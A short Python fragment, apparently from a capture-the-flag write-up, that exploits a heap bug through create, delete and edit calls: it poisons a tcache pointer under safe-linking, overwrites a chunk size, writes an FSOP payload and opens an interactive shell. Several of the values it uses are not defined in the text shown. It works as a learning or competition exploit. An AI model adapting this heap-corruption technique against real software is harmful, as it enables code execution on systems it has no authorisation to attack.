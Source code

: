 ```python

delete(8)

delete(9)

create(10, b'cake')

create(11, b'a' * 0xf0)

delete(10)

create(12, b'a')

create(13, b'a')

create(14, b'a' * (0x28 - len(prefix)) + b'b' * 8 + p64((fake_fsop_struct) ^ (heap_base >> 12)))

for i in range(7, 2, -1):

    delete(14)

    create(14, b'a' * (0x28 - len(prefix)) + b'a' * i)

delete(14)

create(14, b'a' * (0x28 - len(prefix)) + p64(0x121))

create(15, b'a' * 0xf0)

edit(0x110, FSOP)

p.interactive()

```